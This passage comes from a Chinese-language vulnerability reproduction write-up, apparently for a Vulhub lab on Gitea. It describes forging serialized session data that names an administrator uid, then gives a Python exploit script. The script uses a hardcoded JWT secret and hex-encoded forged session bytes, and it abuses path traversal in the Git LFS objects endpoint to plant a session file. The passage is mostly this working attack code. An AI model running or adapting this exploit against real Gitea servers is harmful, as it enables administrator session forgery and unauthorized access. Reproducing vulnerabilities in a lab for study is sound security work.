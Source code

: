 其中，`{"_old_iod": "1", "uid": uid, "uname": "vulhub" }`就是session中的数据，uid是管理员id，uname是管理员用户名。编译并执行上述代码，得到一串hex，就是伪造的数据。

> 原作者给出的POC是他生成好的一段二进制文件，uid和uname不能自定义。

[![c2d8c85f-f2e1-4413-8f24-d0e6a834de6f.png](https://www.leavesongs.com/media/attachment/2018/07/14/20f7cf77-3627-4f8e-9eed-e10abc2cbe58.2ef53cd7cda7.png)](https://www.leavesongs.com/media/attachment/2018/07/14/20f7cf77-3627-4f8e-9eed-e10abc2cbe58.png)

接着，我写了一个简单的Python脚本来进行后续利用（需要Python3.6）：

```python
import requests
import jwt
import time
import base64
import logging
import sys
import json
from urllib.parse import quote


logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)

BASE_URL = 'http://your-ip:3000/vulhub/repo'
JWT_SECRET = 'AzDE6jvaOhh_u30cmkbEqmOdl8h34zOyxfqcieuAu9Y'
USER_ID = 1
REPO_ID = 1
SESSION_ID = '11vulhub'
SESSION_DATA = bytes.fromhex('0eff81040102ff82000110011000005cff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c08000676756c687562')


def generate_token():
    def decode_base64(data):
        missing_padding = len(data) % 4
        if missing_padding != 0:
            data += '='* (4 - missing_padding)
        return base64.urlsafe_b64decode(data)

    nbf = int(time.time())-(60*60*24*1000)
    exp = int(time.time())+(60*60*24*1000)

    token = jwt.encode({'user': USER_ID, 'repo': REPO_ID, 'op': 'upload', 'exp': exp, 'nbf': nbf}, decode_base64(JWT_SECRET), algorithm='HS256')
    return token.decode()

def gen_data():
    yield SESSION_DATA
    time.sleep(300)
    yield b''


OID = f'....gitea/sessions/{SESSION_ID[0]}/{SESSION_ID[1]}/{SESSION_ID}'
response = requests.post(f'{BASE_URL}.git/info/lfs/objects', headers={
    'Accept': 'application/vnd.git-lfs+json'
}, json={
    "Oid": OID,
    "Size": 100000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
})
logging.info(response.text)
```